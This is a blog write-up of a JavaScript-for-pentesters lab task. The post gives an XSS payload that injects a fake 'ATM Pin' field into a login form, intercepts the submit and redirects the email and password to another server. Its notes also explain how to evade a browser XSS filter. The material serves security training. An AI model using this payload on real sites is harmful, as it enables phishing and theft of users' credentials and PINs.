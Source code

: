 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-10-24 11:30:24+00:00
layout: post
slug: xss-modifying-form-fields-js-pentesters-task-4-write
title: 'XSS - Modifying Form fields: JS for Pentesters task 4 write up'
wordpress_id: 298
categories:
- jsp
- javascript
- security-tube
- xss
summary: Writeup for task-4 for javascript for pentesters series by security-tube
---
```


In the last article we saw how we can [Hijack a form submit with XSS]({{ site.url }}/2014/10/23/xss-hijacking-form-submit-js-pentesters-task-3-write/). But form hijacking could have been much more interesting if it has more interesting information's like ATM pin. In this challenge what we do is to add a new column to the form  named "ATM pin" so that before submitting the form, user will enter more information like ATM Pin. That's awesome isn't it ? So the objective of this challenge is that:

[JS for Pentesters Task 4](http://pentesteracademylab.appspot.com/lab/webapp/jfp/4)

1) Add a new form field called "ATM PIN"

2) Post the credentials to the Attacker server along with the ATM pin.

As always, we have the XSS vulnerability in the page via the URL parameter. You can confirm it by simple alert box injection in FireFox. Now, our task is to add a new input element called ATM Pin. So first, let us see the source code:

From the source code, we can see that there are only 1 **form** element which contains 2 input boxes namely email and password. So first lets create an **input **with exactly the same attributes as an email or password input form (place holder and name should be modified). Then we have to add it just above the username field so that it shows up correctly and user should think that the newly added box is legitimate. So the overall payload we used is:
{% highlight html lineos %}
    <script>
    newField = document.createElement("input");
    newField.setAttribute("type", "text");
    newField.setAttribute("value", "");
    newField.setAttribute("class", "input-block-level");
    newField.setAttribute("placeholder", "ATM Pin");
    newField.setAttribute("name", "ATM pin");    
    var prev = document.forms[0].elements[0];
    document.forms[0].insertBefore(newField, prev);
    function intercept() {
    var user = document.forms[0].elements[1].value;
    var pass = document.forms[0].elements[2].value;
    window.location.replace("http://pentesteracademylab.appspot.com/lab/webapp/1?email=" + user + "&password=" + pass);
    return false;
    }
    document.forms[0].onsubmit = intercept;
    </script>
{% endhighlight %}

Let us analyse how this works. First we create a new element called **newField **and added all the necessary attributes to it like 'value', 'class name' and even 'place holder' so that it looks real professional. Then we selected the first element of the input form. The reason why we are doing this is that , we need to add the newly created one above the username element which is basically the first element of the input form. So we select the username field and assigned it to a variable named **prev. **Now our task is to add the new element just before prev. To do that, we used a JavaScript function called **insertBefore.**

Then as we saw in the [Hijack a form submit with XSS]({{ site.url }}/2014/10/23/xss-hijacking-form-submit-js-pentesters-task-3-write/) task, we are going to redirect this information to our server. What I did was to redirect the url to Pentester Academy WAP challenge 1 which is basically a Form brute force. As you can see in the write up about the form brute force, the user:pass combination for that challenge is `admin@PentesterAcademy.com:zzzxy`. If you enter the same credentials in this challenge after entering the payload, you can see a Window saying **challenge completed**.

**Note:**

1) You can easily modify the **window.location.replace** to your localhost where you run a simple HTTP server or you can redirect this to anywhere you want.

2) You have to [URL encode](http://meyerweb.com/eric/tools/dencoder/) the payload before the injection via the url parameter or else this will fail to work.

3) It is always recommended to try out the challenge in Mozilla FireFox and not in Google chrome because chrome has an inbuilt XSS Auditor which will stop the payload from executing.

4) The solutions written above is the way we cracked the problem which might be different from the solution videos provided by the SecurityTube. If you need the solution video, you have to subscribe to [**PentesterAcademy**](http://pentesteracademy.com/).

